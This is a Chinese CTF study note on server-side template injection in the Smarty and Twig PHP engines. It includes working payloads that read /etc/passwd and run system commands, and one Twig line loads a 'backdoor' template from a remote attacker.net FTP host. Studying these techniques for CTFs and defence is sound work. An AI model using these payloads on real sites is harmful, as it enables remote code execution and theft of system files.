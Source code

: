 # PHP模板

单独拉flask来说是因为它实在是感觉非常重要，而且是理解运用其他模板的基础（c语言？）


接下来是两个php相关的模板



## smarty

Smarty是一个PHP的模板引擎，提供让程序逻辑与页面显示（HTML/CSS）代码分离的功能。


这个模板好像是有些年头了，碰到的次数也是很少，但比赛可不会管你学没学会不会，所以还


是在这简单的介绍介绍。（我是想拉个例题的，但是没找到）


利用方式：（搬运工


一般情况下输入{$smarty.version}就可以看到返回的smarty的版本号


Smarty支持使用`{php}{/php}`标签来执行被包裹其中的php指令，最常规的思路自然是先测试该标签。（Smarty已经废弃{php}标签，强烈建议不要使用。在Smarty 3.1，{php}仅在SmartyBC中可用。）


`{literal}`可以让一个模板区域的字符原样输出。 这经常用于保护页面上的Javascript或css样式表，避免因为Smarty的定界符而错被解析。


**通过self获取Smarty类再调用其静态方法实现文件读写被网上很多文章采用。**


Smarty类的getStreamVariable方法的代码如下：


```plain
public function getStreamVariable($variable){        $_result = '';        $fp = fopen($variable, 'r+');        if ($fp) {            while (!feof($fp) && ($current_line = fgets($fp)) !== false) {                $_result .= $current_line;            }            fclose($fp);            return $_result;        }        $smarty = isset($this->smarty) ? $this->smarty : $this;        if ($smarty->error_unassigned) {            throw new SmartyException('Undefined stream variable "' . $variable . '"');        } else {            return null;        }    }
Plain Text
```



可以看到这个方法可以读取一个文件并返回其内容，所以我们可以用self来获取Smarty对象并调用这个方法，很多文章里给的payload都形如：{self::getStreamVariable(“[file:///etc/passwd](file:///etc/passwd)”)}。





Smarty的{if}条件判断和PHP的if非常相似，只是增加了一些特性。每个{if}必须有一个配对的{/if}，也可以使用{else} 和 {elseif}，全部的PHP条件表达式和函数都可以在if内使用，如||*, or, &&, and, is_array(), 等等，如：{if is_array($array)}{/if}*那么同样的，在利用的过程中{ifsystem(‘cat \flag’)}{/if},亦或者是{if readfile (‘/flag’)}{/if}


大概就这么点了，对了例题：（自己去搜搜）


CISCN2019华东南赛区Web11


[BJDCTF2020]The mystery of ip

## twig

另外一个php模板，其实有三个，这里只写了两个，剩下的那个实在是没有遇见过


这个也挺少见的（对我来说


所以我更倾向于~~只能~~放一些暴力一点的payload了


```plain
Twig - Basic injection
{{7*7}}
{{7*'7'}} would result in 49
{{dump(app)}}
{{app.request.server.all|join(',')}}
Twig - Template format
$output = $twig > render (
'Dear' . $_GET['custom_greeting'],
array("first_name" => $user.first_name)
);
$output = $twig > render (
"Dear {first_name}",
array("first_name" => $user.first_name)
);
Twig - Arbitrary File Reading
"{{'/etc/passwd'|file_excerpt(1,30)}}"@
Twig - Code execution
{{self}}
{{_self.env.setCache("ftp://attacker.net:2121")}}{{_self.env.loadTemplate("backdoor")}}
{{_self.env.registerUndefinedFilterCallback("exec")}}{{_self.env.getFilter("id")}}
{{['id']|filter('system')}}
{{['cat\x20/etc/passwd']|filter('system')}}
{{['cat$IFS/etc/passwd']|filter('system')}}
Example with an email passing FILTER_VALIDATE_EMAIL PHP.
POST /subscribe?0=cat+/etc/passwd HTTP/1.1
email="{{app.request.query.filter(0,0,1024,{'options':'system'})}}"@attacker.tld
嗯是的，没错，就是这样（指白嫖怪）
Plain Text
```



来自github上某位老哥的杰作。














